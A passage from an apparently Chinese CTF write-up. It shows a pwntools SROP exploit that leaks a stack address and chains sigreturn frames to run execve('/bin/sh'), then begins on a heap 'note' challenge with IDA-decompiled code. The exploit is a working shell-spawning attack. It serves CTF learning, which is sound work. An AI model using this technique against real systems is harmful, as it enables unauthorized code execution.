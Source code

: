     payload = p64(start_addr) * 3
    sh.send(payload)


    sh.send('\xb3')
    stack_addr = u64(sh.recv()[8:16])
    log.success('leak stack addr :' + hex(stack_addr))


    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_read
    sigframe.rdi = 0
    sigframe.rsi = stack_addr
    sigframe.rdx = 0x400
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret
    payload = p64(start_addr) + 'a' * 8 + str(sigframe)
    sh.send(payload)


    sigreturn = p64(syscall_ret) + 'b' * 7
    sh.send(sigreturn)


    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_execve
    sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
    sigframe.rsi = 0x0
    sigframe.rdx = 0x0
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret
    
    frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
    print len(frame_payload)
    payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
    sh.send(payload)
    sh.send(sigreturn)
    sh.interactive()

***2.note***
经典的表单题目，丢进ida查看反编译代码：

    void __fastcall main(__int64 a1, char **a2, char **a3)
    {
      setvbuf(stdin, 0LL, 2, 0LL);
      setvbuf(stdout, 0LL, 2, 0LL);
      setvbuf(stderr, 0LL, 2, 0LL);
      alarm(0x3Cu);                                 // name adr in bss
      puts("Input your name:");                     // faze size 
      get_input((char *)&name, 64, 10);             // no off by one
      puts("Input your address:");
      get_input((char *)&addr, 96, 10);
      while ( 1 )
      {
        switch ( choices() )
        {
          case 1:
            add();                                  // nothing
            break;
          case 2:
            show();
            break;
          case 3:
            edit();                                 // suspect
            break;
          case 4:
            delete();                               // ptr has been nullified
            break;